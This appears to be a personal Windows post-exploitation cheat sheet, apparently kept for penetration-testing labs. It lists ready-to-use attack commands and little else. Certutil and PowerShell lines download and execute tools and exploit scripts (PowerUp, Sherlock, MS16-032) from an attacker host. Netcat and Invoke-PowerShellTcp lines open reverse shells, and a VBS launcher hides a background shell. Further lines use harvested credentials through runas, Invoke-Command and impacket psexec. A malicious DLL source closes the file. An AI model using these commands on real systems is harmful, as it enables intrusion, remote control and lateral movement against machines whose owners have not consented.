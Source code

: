 #find file 
dir directory\*.txt /s /p
dir C:\proof.txt /s /p
dir C:\network-secret.txt /s /p


#find Alternate Data Stream
##Find all files in a direcory
dir /R 
##find only ADS
dir   /s /r | find ":$DATA"

dir   /s /r | find ":$DATA" | findStr proof.txt
#use streams from sysinternal
streams.exe -accepteula -s

certutil -urlcache -split -f http://192.168.119.149/nc.exe nc.exe

certutil -urlcache -split -f http://192.168.119.149/winPEAS/winPEASx64.exe win.exe

#Run file remotely
powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Invoke-PowerShellTcp.ps1')

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Invoke-PowerShellTcp.ps1')"

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Sherlock.ps1'); Find-AllVulns "

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/powerUp.ps1');"

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/jaws-enum.ps1');"

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Sherlock.ps1'); "

powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Sherlock.ps1')

powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/powershell_attack.txt')

#Encoded command powershell

cat shell3 | iconv --to-code UTF-16LE |   base64 -w 0
powershell -EncodedCommand JwBtAGkAawBlAGYAcgBvAGIAYgBpAG4AcwAuAGMAbwBtACcA


#Calling a specific PowerShell function from the command line
powershell -File script.ps1 -Command My-Func
powershell -File Sherlock.ps1 -Command Find-AllVulns
powershell -File jaws-enum.ps1 -OutputFileName Jaws-Enum.txt

more < letter.txt
type letter.txt | more 


#Download file

$url = "http://192.168.119.149/powerUp.ps1";$output = "C:\Users\Chase\Desktop\powerUp.ps1";$wc = New-Object System.Net.WebClient;$wc.DownloadFile($url, $output);

certutil -urlcache -split -f http://192.168.119.149/nc.exe nc.exe

certutil -urlcache -split -f http://192.168.119.149/winPEAS/winPEASx64.exe win.exe

(new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/powerUp.ps1','C:\Windows\Temp\test\powerup.ps1')

(new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/jaws-enum.ps1','C:\Windows\Temp\test\jaws-enum.ps1')

(new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/Sherlock.ps1','C:\Windows\Temp\test\Sherlock.ps1')

(new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/windows-exploit-suggester.py','C:\Windows\Temp\test\windows-exploit-suggester.py')


powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/MS16-032.ps1','C:\Users\kostas\Desktop\MS16-032.ps1')

powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/MS16-135.ps1')

#Auto-Login (User pivoting)

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;

$creds =New-Object System.Management.Automation.PSCredential('administrator', $passwd)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.119.149/Invoke-PowerShellTcp.ps1')" -Credential $creds

#or

Invoke-command -Computer fidelity -scriptblock { c:\\inetpub\\wwwroot\nc.exe 10.10.14.94 1234 -e powershell.exe } -Credential $creds


#Runas
cat shell3 | iconv --to-code UTF-16LE |   base64 -w 0

runas /profile /savecred /user:ACCESS\Administrator "cmd /c ping -n 1 192.168.119.149" 

runas /profile /savecred /user:ACCESS\Administrator "powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Invoke-PowerShellTcp.ps1')" 

Another simple way is
runas /user:ACCESS\Administrator /savecred "powershell -C IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.36/Invoke-PowerShellTcp3.ps1')"


#Invoke command (Run a script as another user with creds found)
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM"; 

$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris", $password;

Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -credential $credential;




#copy big file 
*/opt/impacket/examples/smbserver.py test . -smb2support -username guest -password guest (on linux)

*net use x: \\192.168.119.149\test  /user:guest guest 
*cmd /c "copy firefox.exe_200131_084937.dmp x:\"

#Connect as Admin 
python /opt/impacket/examples/psexec.py active/Administrator:Ticketmaster1968@10.10.10.100
python /opt/impacket/examples/psexec.py active/Administrator@10.10.10.100

python /opt/impacket/examples/wmiexec.py active.htb/administrator:ThePassword@10.10.10.100


#Backgroud shell

## On linux
cat << EOF > hidden.vbs
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run chr(34) & "C:\windows\temp\test\nc.bat" & Chr(34), 0
Set WshShell = Nothing
EOF

cat << EOF > nc.bat
C:\windows\temp\test\nc.exe 192.168.119.149 443 -e cmd
EOF

## On windows
```
certutil -urlcache -split -f http://192.168.119.149/hidden.vbs

certutil -urlcache -split -f http://192.168.119.149/nc.bat

certutil -urlcache -split -f http://192.168.119.149/nc.exe

cmd /c cscript hidden.vbs
```
### compilation
#### compile a malicious dll
```
For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
```
##### Content of windows_dll.c
```
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```